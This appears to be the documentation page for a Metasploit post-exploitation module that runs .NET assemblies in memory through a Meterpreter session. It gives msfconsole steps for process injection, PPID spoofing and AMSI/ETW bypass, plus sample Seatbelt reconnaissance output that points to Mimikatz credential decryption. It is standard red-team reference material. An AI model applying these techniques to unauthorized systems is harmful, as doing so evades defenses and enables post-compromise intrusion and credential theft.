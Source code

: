 # Execute .Net assembly via Meterpreter session

This module executes a .NET Assembly from a Meterpreter session

It uses Reflective DLL injection to load HostingCLRx64.dll needed to run
.NET assembly. This can be done either within the meterpreter session, or
by injecting into a new or existing process.

The unmanaged injected DLL takes care of verifying if the
process has already loaded the CLR, and loads it if necessary. The
version of the CLR to be loaded is determined by parsing of the assembly
provided and searching for a known signature. Then it runs the assembly
from memory.
Before loading the assembly in the context of the CLR, AMSI is bypassed
using the AmsiScanBuffer patching technique.
(https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Verification Steps

### Example 1: Run within the same process

  1. Build or download a .NET project
  1. Build project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE SELF``` (to run within our own process)
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```run```
  1. The assembly should run.

```
msf5 post(windows/manage/execute_dotnet_assembly) > run

[*] Launching notepad.exe to host CLR...
[+] Process 10628 launched.
[*] Reflectively injecting the Host DLL into 10628..
[*] Injecting Host into 10628...
[*] Host injected. Copy assembly into 10628...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] 
[+] 
[+]                         %&&@@@&&                                                                                  
[+]                         &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
[+]                         &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
[+] %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
[+] #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
[+] #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
[+] #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
[+] #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
[+] ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
[+] #####%######################  %%%..                       @////(((&%%%%%%%################                        
[+]                         &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
[+]                         &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,                                 
[+]                          #%%%%##,                                                                                 
.........
.........
.........
[+]   [*] Use the Mimikatz "dpapi::cred" module with appropriate /masterkey to decrypt
[+] 
[+] 
[+] === Checking for RDCMan Settings Files (Current User) ===
[+] 
[+] 
[+] 
[+] [*] Completed Safety Checks in 11 seconds
[+] 
[*] End output.
[+] Killing process 10628
[+] Execution finished.
[*] Post module execution completed
```

  ## Example 2: Run in existing process

  1. Build or download a .NET project
  1. Build project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE INJECT``` (to run within an existing process)
  1. Do: ```set PID 8648```
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```run```
  1. The assembly should inject into process 8648.

  ## Example 3: Run in new process

  1. Build or download a .NET project
  1. Build project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE SPAWN_AND_INJECT``` (to run within a new process)
  1. Do: ```set PPID 8648``` (optional PPID spoofing)
  1. Do: ```set PROCESS notepad.exe``` (process to launch)
  1. Do: ```set USETHREADTOKEN false``` (whether to launch the process under the current impersonation context)
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```set KILL true``` (kill the spawned process once the assembly has completed - default: true)
  1. Do: ```run```
  1. The assembly should run.

## Options

```

Module options (post/windows/manage/execute_dotnet_assembly):

   Name        Current Setting         Required  Description
   ----        ---------------         --------  -----------
   AMSIBYPASS  true                    yes       Enable AMSI bypass
   ARGUMENTS                           no        Command line arguments
   DOTNET_EXE  ~/SeatBelt.exe          yes       Assembly file name
   ETWBYPASS   true                    yes       Enable ETW bypass
   SESSION                             yes       The session to run this module on
   Signature   Automatic               yes       The Main function signature (Accepted: Automatic, Main(), Main(string[]))
   TECHNIQUE   SELF                    yes       Technique for executing assembly (Accepted: SELF, INJECT, SPAWN_AND_INJECT)


   When TECHNIQUE is SPAWN_AND_INJECT:

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   PPID                             no        Process Identifier for PPID spoofing when creating a new process (no PPID spoofing if unset)
   PROCESS         notepad.exe      no        Process to spawn
   USETHREADTOKEN  true             no        Spawn process with thread impersonation


   When TECHNIQUE is INJECT:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   PID                    no        PID  to inject

```

### Advanced options:

```

   Active when TECHNIQUE is SPAWN_AND_INJECT:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   KILL  true             yes       Kill the launched process at the end of the task

```